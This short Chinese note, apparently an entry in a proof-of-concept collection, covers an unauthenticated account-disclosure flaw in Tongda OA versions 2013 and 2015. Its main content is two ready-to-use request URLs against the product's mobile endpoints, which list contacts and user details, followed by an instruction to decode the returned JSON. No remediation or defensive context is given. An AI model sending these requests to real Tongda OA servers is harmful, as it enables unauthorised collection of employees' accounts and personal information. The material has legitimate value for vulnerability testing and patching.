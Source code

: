 ## 通达oa 未授权获取帐号

### 漏洞影响

2013、2015版本

### 复现过程

**PoC**

`http://url/mobile/inc/get_contactlist.php?P=1&KWORD=%&isuser_info=3`

`http://url/mobile/user_info/data.php?P=1&ATYPE=getUserInfo&Q_ID=50`

将返回的json进行解码